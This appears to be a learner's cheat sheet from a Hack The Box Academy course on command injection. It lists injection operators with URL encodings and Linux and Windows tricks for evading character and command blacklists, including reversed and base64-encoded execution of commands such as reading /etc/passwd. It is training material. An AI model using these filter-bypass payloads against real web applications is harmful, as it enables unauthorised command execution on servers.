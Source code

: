 > ⚠️ **PAY ATTENTION:**
> 
> Check for front-end filters.
> Use BurpSuite to avoid front-end filters.
> 
> Remember to remove the contents of a parameter to try the payload also.


## Injection Operators

| Injection Operator | Injection Character | URL-Encoded Character | Executed Command |
|--------------------|---------------------|-----------------------|------------------|
| Semicolon          | `;`                 | `%3b`                 | Both             |
| New Line           | `\n`                | `%0a`                 | Both             |
| Background         | `&`                 | `%26`                 | Both (second output generally shown first) |
| Pipe               | \|                 | `%7c`                 | Both (only second output is shown) |
| AND                | `&&`                | `%26%26`              | Both (only if first succeeds) |
| OR                 | \|\|                 | `%7c%7c`              | Second (only if first fails) |
| Sub-Shell          | `` ` ``             | `%60%60`              | Both (Linux-only) |
| Sub-Shell          | `$( )`              | `%24%28%29`           | Both (Linux-only) |

>**ℹ️ Info:**
>
>Use the URL encoded variable from the injection operators.
>Understand what is black listed and what not going step by step adding them.
>
> The new line operator seems to work more than the semicolon, it's recommended to use it instead.


## Linux: Filtered Character Bypass

| Code                     | Description                                      |
|--------------------------|--------------------------------------------------|
| `printenv`               | Can be used to view all environment variables    |
| `%09`                    | Using tabs instead of spaces                    |
| `${IFS}`                 | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. `$()`) |
| `{ls,-la}`               | Commas will be replaced with spaces              |
| `${PATH:0:1}`            | Will be replaced with `/`                        |
| `${LS_COLORS:10:1}`      | Will be replaced with `;`                        |
| `$(tr '!-}' '"-~'<<<[)`   | Shift character by one (`[ -> \`)                |

> ⚠️ **PAY ATTENTION:**
> 
> Can't seem to make the `$(tr '!-}' '"-~'<<<[)`  work if spaces are blacklisted.


## Linux: Blacklisted Command Bypass

| Code                                                         | Description                                          |
|--------------------------------------------------------------|------------------------------------------------------|
| `' or "`                                                     | Total must be even                                   |
| `$@` or `\`                                                  | Linux only                                           |
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`                           | Execute command regardless of cases                  |
| `$(a="WhOaMi";printf %s "${a,,}")`                           | Another variation of the technique                   |
| `echo 'whoami' | rev`                                        | Reverse a string                                    |
| `$(rev<<<'imaohw')`                                          | Execute reversed command                             |
| `echo -n 'cat /etc/passwd \| grep 33' \| base64`               | Encode a string with base64                          |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string                          |

> ⚠️ **PAY ATTENTION:**
> 
> Character substitution doesn't work in zsh, open a bash shell to test `$(a="WhOaMi";printf %s "${a,,}")`

>**ℹ️ Info:**
>
>Base64 encoding is the best type of bypass so far.

## Windows: Filtered Character Bypass

| Code                           | Description                                          |
|--------------------------------|------------------------------------------------------|
| `Get-ChildItem Env:`           | Can be used to view all environment variables (PowerShell) |
| `%09`                          | Using tabs instead of spaces                        |
| `%PROGRAMFILES:~10,-5%`        | Will be replaced with a space (CMD)                  |
| `$env:PROGRAMFILES[10]`        | Will be replaced with a space (PowerShell)           |
| `%HOMEPATH:~0,-17%`            | Will be replaced with `\` (CMD)                      |
| `$env:HOMEPATH[0]`             | Will be replaced with `\` (PowerShell)               |


## Windows: Blacklisted Command Bypass

| Code                                                         | Description                                          |
|--------------------------------------------------------------|------------------------------------------------------|
| `' or "`                                                     | Total must be even                                   |
| `^`                                                          | Windows only (CMD)                                   |
| `WhoAmi`                                                      | Simply send the character with odd cases             |
| `"whoami"[-1..-20] -join ''`                                  | Reverse a string                                    |
| `iex "$('imaohw'[-1..-20] -join '')"`                        | Execute reversed command                             |
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))` | Encode a string with base64 |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string |

## Command Injection Prevention
https://academy.hackthebox.com/module/109/section/1041